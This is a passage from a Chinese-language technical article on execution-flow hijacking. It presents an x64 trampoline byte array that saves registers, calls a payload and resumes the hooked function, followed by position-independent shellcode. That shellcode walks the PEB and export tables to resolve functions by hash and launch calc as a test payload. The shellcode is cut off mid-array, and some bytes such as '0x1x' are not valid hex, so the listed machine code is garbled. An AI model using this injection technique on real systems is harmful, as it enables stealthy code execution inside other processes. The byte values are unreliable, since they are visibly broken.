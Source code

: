   
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8lvpAJHElQA6DiaJniaZb0daO3Kppz9ndV9Z2hHsjMuH61r2hu0jesGSg/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
**五、Trampoline与Payload的处理**  
  
****  
  
为清晰起见，我们将Trampoline和Payload分开定义。我们使用Payload调出计算器进行测试，Trampoline负责平衡堆栈、保存/恢复寄存器，并在调用Payload后恢复原函数执行流程。  
  

```
unsigned char tramp_to_shellcode[] = {
    // 执行流劫持准备
    0x58,0x48, 0x83, 0xE8, 0x05, 
    
    // 寄存器保存区
    0x50,0x51,0x52,   
    0x41,0x50,0x41,0x51,0x41,0x52,0x41,0x53, 

    // Shellcode加载段
    0x48, 0xB9,0x00, 0x00, 0x00, 
    0x00, 0x00, 0x00, 0x00, 0x00, 
    0x48, 0x89, 0x08, 
    
    // 执行环境配置
    0x48, 0x83, 0xEC, 0x40, 
    0xE8, 0x11, 0x00, 0x00, 0x00, 
    
    // 执行流恢复
    0x48, 0x83, 0xC4, 0x40,
    0x41, 0x5B, 0x41, 0x5A, 0x41, 0x59, 0x41, 0x58, 
    0x5A, 0x59, 0x58, 
    0xFF, 0xE0, 
    0x90
};
unsignedchar shellcode[] = {
        // 保存寄存器状态 (RBX, RSI, RDI, RBP, RSP, RAX)
        0x53, 0x56, 0x57, 0x55, 0x54, 0x58,

        // 栈对齐调整 (16字节边界)
        0x66, 0x83, 0xE4, 0xF0, 

        // 准备调用参数 (&#34;calc&#34;)
        0x50, 0x6A, 0x60, 0x5A, 
        0x68, 0x63, 0x61, 0x6C, 0x63, 

        // PEB/TEB遍历开始
        0x54, 0x59, 0x48, 0x29, 0xD4,
        0x65, 0x48, 0x8B, 0x32,       
        0x48, 0x8B, 0x76, 0x18,      
        0x48, 0x8B, 0x76, 0x10,      

        // 导出表解析循环
        0x48, 0xAD,                  
        0x48, 0x8B, 0x30,            
        0x48, 0x8B, 0x7E, 0x30,      
        0x03, 0x57, 0x3C,           

        // 函数哈希比对
        0x8B, 0x5C, 0x17, 0x28,      
        0x8B, 0x74, 0x1x, 0x20,       
        0x48, 0x01, 0xFE, 
        0x8B, 0x54, 0x1F, 0x24,       
        0x0F, 0xB7, 0x2C, 0x1x,      
```